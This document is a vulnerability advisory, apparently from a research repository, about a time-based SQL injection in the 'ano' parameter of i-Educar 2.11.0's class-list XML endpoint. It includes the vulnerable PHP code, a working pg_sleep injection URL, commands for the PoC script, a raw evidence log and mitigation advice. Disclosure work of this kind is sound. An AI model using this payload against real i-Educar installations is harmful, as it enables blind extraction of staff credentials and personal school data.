

# Time-based SQL injection in `educar_turma_xml.php` (`ano`)

- **Product:** i-Educar 2.11.0 (latest release, tag `2.11.0`) (portabilis/i-educar)
- **Type / CWE:** CWE-89 Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') — https://cwe.mitre.org/data/definitions/89.html
- **Severity:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` = **8.8 High** (estimated from the vector, not an upstream score)
- **Affected version:** 2.11.0 (latest release, tag `2.11.0`)
- **Endpoint(s):** `GET /intranet/educar_turma_xml.php` — parameter(s): `ano` (with `esc`, `ser`)
- **Authentication:** login required (verified with `admin`)
- **Status:** VERIFIED against a local i-Educar 2.11.0 lab (2026-09-10)

## Summary

The class-list XML helper sets `$anoLetivo = $_GET['ano'] ? $_GET['ano'] : 'NULL';`
and concatenates it into a `CASE WHEN {$anoLetivo} IS NULL THEN TRUE ELSE
escola_ano_letivo.ano = {$anoLetivo} END` expression. `esc` and `ser` are
validated with `is_numeric()`, `ano` is not. The PoC injects
`(SELECT 2026 FROM pg_sleep(2))`; the query is evaluated once per candidate
row, which produced a 4-second delay (two sleeps) while returning the same XML,
proving arbitrary SQL expression execution.

## Root cause

`ieducar/intranet/educar_turma_xml.php:8`:

```php
if (is_numeric(value: $_GET['esc']) && is_numeric(value: $_GET['ser'])) {
    $anoLetivo = $_GET['ano'] ? $_GET['ano'] : 'NULL';

    $db = new clsBanco;

    $sql = "SELECT cod_turma,
                   nm_turma || ' - ' || turma.ano::varchar AS nm_turma
            ...
                AND (CASE WHEN {$anoLetivo} IS NULL THEN TRUE ELSE escola_ano_letivo.ano = {$anoLetivo} END)
            GROUP BY cod_turma
            ORDER BY nm_turma";
```

No cast, no binding, no numeric validation on `ano`.

## Proof of concept

1. Log in.
2. Baseline: `GET /intranet/educar_turma_xml.php?esc=2&ser=6&ano=2026`
   → `HTTP 200` in ~0.075 s with the two 2026 classes for that school/grade.
3. Injection:
   `GET /intranet/educar_turma_xml.php?esc=2&ser=6&ano=%28SELECT%202026%20FROM%20pg_sleep%282%29%29`
   → `HTTP 200` after ~4.08 s (two evaluations of `pg_sleep(2)`), same XML.
4. Read-only payload; no data is modified.

```bash
python3 i-explorar.py            # pick [12]
# or standalone:
python3 vulns/12-turma-xml-sql-injection/poc.py --target http://127.0.0.1:8080
```

## Evidence

Raw output of the PoC run against the 2.11.0 release (`evidence/run-20260911T001728Z.log`), pasted
verbatim:

```
# i-explorar raw evidence
# started_at: 2026-09-11T00:17:28.844980+00:00
# host: -03
# target: http://127.0.0.1:8080
# payload: (SELECT 2026 FROM pg_sleep(2)) (read-only)

### baseline: GET /intranet/educar_turma_xml.php?esc=2&ser=6&ano=2026
HTTP 200 elapsed=0.077s

--- body ---
<?xml version="1.0" encoding="UTF-8"?>
<query xmlns="sugestoes">
  <turma cod_turma="3">1º ano (1º ano) Matutino - 2026</turma>
  <turma cod_turma="12">1º ano (1º ano) Vespertino - 2026</turma>
</query>
--- end body ---

### injection: GET /intranet/educar_turma_xml.php?esc=2&ser=6&ano=%28SELECT%202026%20FROM%20pg_sleep%282%29%29
HTTP 200 elapsed=4.089s

--- body ---
<?xml version="1.0" encoding="UTF-8"?>
<query xmlns="sugestoes">
  <turma cod_turma="3">1º ano (1º ano) Matutino - 2026</turma>
  <turma cod_turma="12">1º ano (1º ano) Vespertino - 2026</turma>
</query>
--- end body ---

# delta=4.012s threshold=1.5s
# finished_at: 2026-09-11T00:17:33.375258+00:00
```

## Screenshots



Caption: console capture of the PoC run — baseline 0.075 s versus injected
4.076 s with an identical XML body.

## Impact

An authenticated user can execute arbitrary read-only SQL expressions through a
timing oracle:

- extract any data readable by the `ieducar` database user (including staff
  credentials and personal data) with time-based blind queries;
- enumerate schema and records with boolean/timing conditions;
- degrade database performance with heavy expressions.

## Timeline

- 2026-09-10: local reproduction against the i-explorar 2.11.0 lab (this advisory)
- not yet reported to the maintainer — no remote or external contact was made
  from this repository

## Mitigation

- Cast or bind `ano`: `(int) $_GET['ano']` or a real parameter.
- Add the same `is_numeric()` validation already used for `esc` and `ser` to
  `ano` (preferably stricter: a 4-digit year).
- Audit the other `..._xml.php` helpers (see VULN 11) for the same pattern.

## References

- Upstream repository: https://github.com/portabilis/i-educar
- CWE-89: https://cwe.mitre.org/data/definitions/89.html
- This advisory (canonical URL): https://github.com/i-explorar/i-explorar/blob/main/vulns/12-turma-xml-sql-injection/README.md
